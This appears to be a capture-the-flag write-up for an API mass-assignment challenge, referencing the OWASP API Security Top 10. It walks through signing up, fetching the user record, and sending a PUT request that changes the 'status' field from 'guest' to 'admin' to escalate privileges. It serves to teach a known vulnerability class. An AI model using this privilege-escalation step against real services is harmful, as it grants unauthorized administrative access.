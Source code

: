 # Challenge17: API - Mass Assignment

## Ref:
    + OWASP API Security TOP 10: https://owasp.org/API-Security/editions/2019/en/0xa6-mass-assignment/

## Solution
    
    1. Create a new account using /api/signup 
    2. Log in to that account using /api/login
    3. Get your user information by request GET to /api/user, and this is the result:

```json
{
    "id": ...,
    "username": ...,
    "note": ...,
    "status": "guest"
}
```


    4. Now based on best practice on API naming convention. We can try send a PUT request to /api/user with:

```json
{
    "id": ...,
    "username": ...,
    "note": ...,
    "status": "admin"
}

```

    5. Now your status is admin :). You can get your flag.
